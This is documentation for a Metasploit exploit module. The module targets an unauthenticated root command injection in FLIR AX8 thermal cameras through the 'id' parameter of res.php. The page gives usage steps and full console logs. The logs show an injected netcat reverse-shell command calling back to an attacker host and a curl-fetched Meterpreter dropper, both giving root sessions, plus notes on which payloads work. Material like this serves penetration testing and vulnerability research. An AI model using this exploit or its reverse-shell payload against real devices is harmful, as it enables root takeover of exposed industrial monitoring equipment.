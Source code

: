 ## Vulnerable Application

FLIR AX8 is a thermal sensor with imaging capabilities, combining thermal and visual cameras
that provides continuous temperature monitoring and alarming for critical electrical and mechanical equipment.
This device is typically used for monitoring industrial environments in a LAN based configuration.
Occasionally you can find a FLIR AX8 device where the HTTP web interface is exposed to the public internet.

FLIR AX8 is affected by an unauthenticated remote command injection vulnerability.
This can be exploited to inject and execute arbitrary shell commands as the root user through the `id` HTTP POST parameter
in `res.php` endpoint.
A successful exploit could allow the attacker to execute arbitrary commands on the underlying operating system with the root privileges.
This issue affects all FLIR AX8 thermal sensor cameras version up to and including `1.46.16`.

The endpoint `/res.php` can be called remotely without user authentication as there is no cookie verification `Cookie: PHPSESSID=ID`
to check if the request is legitimate. The second problem is that the POST parameter id can be injected to execute any unix command.

Installing a vulnerable test bed requires a FLIR AX8 camera with the vulnerable firmware loaded.

This module has been tested against a FLIR AX8 camera with the specifications listed below:

* FLIR AX8 thermal camera
* Firmware v1.40.16

## Verification Steps

1. `use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `netcat` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### FLIR AX8 netcat reverse shell

```
msf6 > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 0
target => 0
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 10 seconds.
[*] Elapsed time: 10.947262728999704 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with mkfifo /tmp/eyhxvh; nc 192.168.100.7 4444 0</tmp/eyhxvh | /bin/sh >/tmp/eyhxvh 2>&1; rm /tmp/eyhxvh
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:37980) at 2022-10-21 07:00:16 +0000

whoami
root
uname -a
Linux neco 3.0.35-flir #1 PREEMPT Thu Oct 20 08:20:20 CET 2022 armv7l GNU/Linux
exit
```

### FLIR AX8 meterpreter session

```
msf6 > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to li>
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 1
target => 1
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 7 seconds.
[*] Elapsed time: 7.929586360999565 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://0.0.0.0:8080/GOCjBdalaU
[*] Client 127.0.0.1 (curl/7.33.0) requested /GOCjBdalaU
[*] Sending payload to 127.0.0.1 (curl/7.33.0)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:56540) at 2022-10-21 07:02:57 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux neco 3.0.35-flir)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
Staged payloads like `linux/armle/meterpreter/reverse_tcp` or `linux/armle/shell/reverse_tcp` do not work.
Manually tested these payloads with `msfvenom`, but they produce segmentation faults when executed on the target.
However stageless payloads such as `linux/armle/meterpreter_reverse_tcp` and `linux/armle/shell_reverse_tcp` are working.
